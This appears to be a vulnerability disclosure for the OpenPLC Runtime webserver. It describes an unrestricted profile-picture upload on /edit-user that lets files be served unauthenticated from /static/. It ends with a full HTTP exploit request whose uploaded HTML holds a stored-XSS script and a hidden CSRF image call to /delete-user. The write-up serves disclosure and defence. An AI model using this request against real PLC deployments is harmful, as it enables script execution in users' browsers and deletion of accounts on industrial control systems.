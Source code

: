 
# 🔥 Insecure File Upload in OpenPLC Runtime Webserver

## 📌 Summary

I discovered a vulnerability in the OpenPLC Runtime webserver (released version: 2024-12-31) that allows authenticated users to upload arbitrary files (e.g., `.html`, `.svg`) as profile pictures. These files are stored in the `/static/` directory and are accessible **without authentication**, enabling stored XSS or malicious hosting scenarios.

---

## 🧪 Affected Component

- Route: `/edit-user`
- Affected: File upload functionality for profile images

---

## ⚠️ Impact

- Arbitrary file upload with insufficient MIME and extension validation
- Stored XSS / Client-side code execution
- Malicious content hosting
- Unauthenticated access to uploaded files
- Potential pivot for CSRF or phishing attacks

---

## 🎯 Attack Vector

1. Authenticated user uploads a `.html` or `.svg` file as a profile picture.
2. File is stored in `/static/` and given a predictable ID (e.g., `http://localhost:8080/static/336029.html`)
3. Any user (even unauthenticated) can access the uploaded file directly.
4. If the file contains JavaScript or other malicious code, it will execute in the victim’s browser.

---

## 📸 Visual Proof of Concept

### Dashboard when PLC is running
![dashboard.png](./dashboard.png)

### Uploading a malicious `.html` file
![choose file.png](./choose%20file.png)

### Using "All Files" to bypass image filter
![file.png](./file.png)

### Uploaded XSS executed from `/static/`
![poc.png](./poc.png)

---

## 🎞️ Video PoCs

- **Basic PoC demo**  
   [`poc de base.mp4`](https://github.com/user-attachments/assets/03b940c0-db32-49ec-ac9b-adebc3797e25)

- **Unauthenticated access demonstration**  
   [`unauthenticated.mp4`](https://github.com/user-attachments/assets/9133f961-1aaf-4223-a3e9-26311774e0ad)

- **CSRF Potential Abuse**  
   [`poc csrf.mp4`](https://github.com/user-attachments/assets/36960ecd-b62a-4e76-b381-542ad424e726)

---

## 📤 Exploit Request Example with Burp Suite Repeater

```http
POST /edit-user HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1397
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: [OpenPLC URL]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW3GoLRyFS7dyLS2B
User-Agent: [UA]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8080/edit-user?table_id=10
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=[cookie]
Connection: close

------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_id"

10
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="full_name"

OpenPLC User
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_name"

openplc
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_email"

openplc@openplc.com
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_password"

mypasswordishere
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="file"; filename="poc cve.html"
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
  <title>PoC – Unfiltered Upload</title>
</head>
<body>
  <h1>Proof of Concept</h1>

  <p>Payload uploaded on vulnerable endpoint. If filtering is broken, executing script below proves stored XSS.</p>

  <h2>XSS Demo (auto-executed)</h2>
  <script>alert('PoC xss')</script>

  <h2>CSRF</h2>
  <img src="http://127.0.0.1:8080/delete-user?user_id=[User ID]" style="display:none" />

  <h2>document.domain</h2>
  <p>Opened from: <script>document.write(document.domain)</script></p>

  <h2>Manual link to malicious HTML</h2>
  <a href="https://google.com/" target="_blank">Click to redirect on google.com</a>
</body>
</html>

------WebKitFormBoundaryW3GoLRyFS7dyLS2B--

